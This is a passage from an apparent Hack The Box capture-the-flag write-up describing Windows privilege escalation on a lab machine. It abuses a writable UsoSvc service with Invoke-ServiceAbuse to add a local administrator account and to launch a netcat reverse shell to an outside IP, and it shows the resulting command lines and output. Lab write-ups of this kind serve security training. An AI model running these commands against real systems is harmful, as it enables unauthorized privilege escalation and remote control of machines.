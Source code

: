 ```
CanRestart    : True
```

I have write access to the `UsoSvc` service so I can change the BinPath and execute anything I want as SYSTEM. The default `Invoke-ServiceAbuse` parameters will simply add a new user with local admin rights.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc'

ServiceAbused Command
------------- -------
UsoSvc        net user john Password123! /add && net localgroup Administrators john /add
```

Instead I can pop a reverse shell using netcat I uploaded earlier.

```
PS C:\ProgramData> Invoke-ServiceAbuse -Name 'UsoSvc' -command 'C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 8888'
```

![](/assets/images/htb-writeup-re/system.png)

I have SYSTEM but I can't read the flag:

```
C:\Users\Administrator\Desktop>icacls root.txt
root.txt NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         RE\Administrator:(I)(F)
         RE\coby:(I)(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
type root.txt
Access is denied.
```
